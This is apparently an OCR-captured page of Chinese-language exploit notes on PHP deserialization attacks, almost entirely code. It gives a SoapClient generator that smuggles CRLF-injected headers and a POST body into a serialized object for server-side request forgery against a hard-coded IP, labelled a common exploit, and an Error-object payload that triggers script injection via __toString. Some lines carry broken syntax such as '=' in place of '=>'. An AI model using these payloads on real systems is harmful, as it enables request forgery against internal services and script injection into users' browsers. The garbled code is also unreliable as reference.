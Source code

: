 ```php
$user_agent = 'aaa^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string;
$options = array(
    'location' =$target,
    'user_agent'=$user_agent,
    'uri'="aaab"
);

$b = new SoapClient(null, $options);

$aaa = serialize($b);
$aaa = str_replace('^^', '%0d%0a', $aaa);
$aaa = str_replace('&', '%26', $aaa);
echo $aaa;

?>
```

```php
常见exp：
<?php
$target = 'http://123.206.216.198/bbb.php';
$post_string = 'a=b&flag=aaa';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: xxxx=1234'
    );
$b = new SoapClient(null,array('location' =$target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      ="aaab"));
 
$aaa = serialize($b);
$aaa = str_replace('^^','%0d%0a',$aaa);
$aaa = str_replace('&','%26',$aaa);
echo $aaa;
?>
```

## __toString方法进行XSS

**Error使用条件：**
- php7版本
- 开启报错的情况下

```php
<?php
$a = new Error("<script>alert(1)</script>");
$b = serialize($a);
$b = urlencode($b);  // 因为有不可见字符，所以url编码一下
echo $b;

// 测试
echo unserialize(urldecode($b));
```
